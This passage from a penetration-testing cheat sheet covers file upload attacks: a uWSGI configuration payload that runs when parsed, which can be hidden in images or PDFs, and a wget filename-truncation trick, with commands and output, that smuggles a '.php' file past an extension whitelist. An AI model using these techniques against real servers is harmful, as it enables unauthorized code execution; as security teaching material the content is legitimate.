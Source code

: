    ```
    
    When the **configuration** file will be **parsed** **payload** will be **executed**. Note that for the config to be parsed, the **process need to be restarted** (crash? DoS?) or the file **autoreloaded** (an option that could be in use indicates the seconds to reload the file if a change is found).
    
    **Important Note:** The uWSGI parsing of configuration file is lax. The previous payload can be embedded inside a binary file(e.g. image, pdf, ...).
    
- **wget File Upload/SSRF Trick**
    
    In some occasions you may find that a server is using **`wget`** to **download files** and you can **indicate** the **URL**. In these cases, the code may be checking that the extension of the downloaded files is inside a whitelist to assure that only allowed files are going to be downloaded. However, **this check can be bypassed.**\ The **maximum** length of a **filename** in **linux** is **255**, however, **wget** truncate the filenames to **236** characters. You can **download a file called "A"\*232+".php"+".gif"**, this filename will **bypass** the **check** (as in this example **".gif"** is a **valid** extension) but `wget` will **rename** the file to **"A"\*232+".php"**.
    
    ```
    #Create file and HTTP server
    echo "SOMETHING" > $(python -c 'print("A"*(236-4)+".php"+".gif")')
    python3 -m http.server 9080
    
    ```
    
    ```
    #Download the file
    wget 127.0.0.1:9080/$(python -c 'print("A"*(236-4)+".php"+".gif")')
    The name is too long, 240 chars total.
    Trying to shorten...
    New name is AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.
    --2020-06-13 03:14:06--  <http://127.0.0.1:9080/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.gif>
    Connecting to 127.0.0.1:9080... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 10 [image/gif]
    Saving to: ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’
    
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAA 100%[===============================================>]      10  --.-KB/s    in 0s
    
    2020-06-13 03:14:06 (1.96 MB/s) - ‘AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php’ saved [10/10]
    
    ```
    
    Note that **another option** you may be thinking of to bypass this check is to make the **HTTP server redirect to a different file**, so the initial URL will bypass the check by then wget will download the redirected file with the new name. This **won't work** **unless** wget is being used with the **parameter** `--trust-server-names` because **wget will download the redirected page with the name of the file indicated in the original URL**.
    